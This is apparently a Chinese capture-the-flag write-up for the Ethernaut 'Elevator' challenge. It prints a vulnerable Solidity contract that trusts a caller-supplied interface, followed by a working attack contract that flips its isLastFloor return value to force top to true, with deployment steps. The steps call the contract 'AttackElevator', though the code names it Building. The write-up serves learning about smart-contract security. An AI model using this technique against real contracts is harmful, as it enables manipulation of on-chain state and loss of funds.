 # 11 - Elevator

## 题目
攻击以下合约
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

## 解题
本题考察完全依赖外部合约的风险，攻击合约如下
```solidity
/// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator {
    function goTo(uint256) external ;
}

contract Building{

    Elevator elevator ;
    bool public toggle = true;
    constructor(address addr){
        elevator = Elevator(addr);
    }

    function isLastFloor(uint256) external returns (bool){
        toggle = !toggle;
        return toggle;
    }
    function attack(uint256 floor) external {
        elevator.goTo(floor);
    }
}
```
这个攻击合约的 isLastFloor 函数在每次调用时都会改变其返回值：
第一次调用返回 false，使 Elevator 合约设置 floor。
第二次调用返回 true，使 Elevator 合约将 top 设置为 true。
攻击步骤：
部署 AttackElevator 合约，传入 Elevator 合约地址。 
调用 AttackElevator 的 attack 函数。
   这将导致 Elevator 合约的 top 变量被设置为 true，即使不是真正的顶层。